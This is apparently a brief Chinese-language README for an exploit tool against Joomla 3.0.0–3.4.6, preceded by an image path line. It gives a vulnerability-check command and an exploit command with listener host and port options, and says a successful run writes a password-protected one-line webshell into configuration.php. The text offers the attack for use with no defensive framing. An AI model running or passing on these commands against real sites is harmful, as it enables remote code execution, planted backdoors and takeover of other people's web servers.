 # Joomla-3.4.6---configuration.php-Remote-Code-Execution
影响范围：3.0.0-3.4.6
1、漏洞验证

python3 Joomla-3.4.6-RCE.py -t http://172.20.10.4

显示“Vulnerable”证明存在漏洞


python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121

执行成功

并在“configuration.php”写入随机密码的一句话木马

